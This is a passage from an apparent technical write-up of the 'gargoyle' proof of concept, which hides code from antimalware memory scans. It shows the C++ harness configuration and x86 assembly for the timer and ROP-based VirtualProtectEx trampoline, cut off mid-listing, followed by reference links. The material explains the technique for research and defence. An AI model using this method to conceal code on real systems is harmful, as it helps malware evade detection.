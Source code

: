 Inside of the proof of concept harness in `main.cpp`, the `SetupConfiguration` is set up this way:

```cpp
config.setup_address = setup_memory;     // Address of gargoyle
config.setup_length = static_cast<uint32_t>(setup_size);
config.VirtualProtectEx = VirtualProtectEx;
config.WaitForSingleObjectEx = WaitForSingleObjectEx;
config.CreateWaitableTimer = CreateWaitableTimerW;
config.SetWaitableTimer = SetWaitableTimer;
config.MessageBox = MessageBoxA;
config.tramp_addr = &tramp;               // Address of stack trampoline
config.interval = invocation_interval_ms; // e.g. 15000
config.target = gadget_memory;            // Address of ROP gadget
```

Pretty simple. It's basically just pointers to various Windows functions and some helpful arguments.

Now that you have an idea of what the `Workspace` looks like, let's get back to gargoyle. Once the stack trampoline has invoked `VirtualProtectEx` and the tail call kicks in, gargoyle has execution. At this point, `esp` is pointing at `old_protections` since `VirtualProtectEx` is `WINAPI`/`__stdcall` and will clean up after itself.

Notice we've put an extra argument, `void* setup_config`, at the end of `StackTrampoline`. This is conveniently placed as if it were the first argument to invoking gargoyle as a `__cdecl`/`__stdcall` function.

This allows gargoyle to find its read/write configuration in memory:

```asm
mov ebx, [esp+4] ; Configuration in ebx now
lea esp, [ebx + Configuration.trampoline - 4] ; Bottom of "stack"
mov ebp, esp
```

Now we're ready to rock. `esp` is pointing at `Workspace.stack`. We've got a hold of a `Configuration` object in `ebx`. If this is the first time gargoyle is called, we'll need to setup the timer. We check for this by looking up the `initialized` field on `Configuration`:

```asm
; If we're initialized, skip to trampoline fixup
mov edx, [ebx + Configuration.initialized]
cmp edx, 0
```

If gargoyle is already initialized, we jump past all the timer setup.

```asm
jne reset_trampoline

; Create the timer
push 0
push 0
push 0
mov ecx, [ebx + Configuration.CreateWaitableTimer]
call ecx
mov [ebx + Configuration.sleep_handle], eax

; Set the timer
push 0
mov ecx, [ebx + Configuration.trampoline_addr]
push ecx
mov ecx, [ebx + Configuration.gadget]
push ecx
mov ecx, [ebx + Configuration.interval]
push ecx
lea ecx, [ebx + Configuration.shadow]
push ecx
mov ecx, [ebx + Configuration.sleep_handle]
```

[1]: https://github.com/JLospinoso/gargoyle
[2]: https://www.google.com/search?q=live+memory+analysis+&ie=utf-8&oe=utf-8#q=antimalware+service+executable&*
[3]: https://msdn.microsoft.com/en-us/library/windows/desktop/ms681951(v=vs.85).aspx
[4]: https://msdn.microsoft.com/en-us/library/windows/desktop/aa365468(v=vs.85).aspx
[5]: https://msdn.microsoft.com/en-us/library/windows/desktop/ms686289(v=vs.85).aspx
[6]: https://msdn.microsoft.com/en-us/library/windows/desktop/dd405521(v=vs.85).aspx
[7]: https://msdn.microsoft.com/en-us/library/windows/desktop/aa365748(v=vs.85).aspx
[8]: https://msdn.microsoft.com/en-us/library/windows/desktop/ms686307(v=vs.85).aspx
[9]: https://msdn.microsoft.com/en-us/library/windows/desktop/ms686293(v=vs.85).aspx
[10]: https://msdn.microsoft.com/en-us/library/windows/desktop/ms684245(v=vs.85).aspx
[11]: https://msdn.microsoft.com/en-us/library/windows/desktop/ms687028(v=vs.85).aspx
[12]: https://msdn.microsoft.com/en-us/library/windows/desktop/ms687036(v=vs.85).aspx
[13]: https://msdn.microsoft.com/en-us/library/windows/desktop/aa366553(v=vs.85).aspx
[14]: https://en.wikipedia.org/wiki/Return-oriented_programming
[15]: https://msdn.microsoft.com/en-us/library/windows/desktop/aa366899(v=vs.85).aspx
[16]: https://msdn.microsoft.com/en-us/library/windows/desktop/ms683179(v=vs.85).aspx
[17]: https://msdn.microsoft.com/en-us/library/windows/desktop/aa366786(v=vs.85).aspx
[18]: https://github.com/pakt/ropc
[19]: https://jlospinoso.github.io/assembly/c/developing/software/2015/04/04/common-x86-calling-conventions.html
[20]: https://www.visualstudio.com/downloads/
[21]: http://www.nasm.us/pub/nasm/releasebuilds/?C=M;O=D
[22]: https://github.com/JLospinoso/gargoyle/issues
[23]: https://msdn.microsoft.com/en-us/library/windows/desktop/ms684954(v=vs.85).aspx
[24]: https://msdn.microsoft.com/en-us/library/windows/desktop/aa363772(v=vs.85).aspx
[25]: https://cseweb.ucsd.edu/~hovav/dist/rop.pdf
[26]: https://github.com/sashs/Ropper
[27]: https://github.com/sashs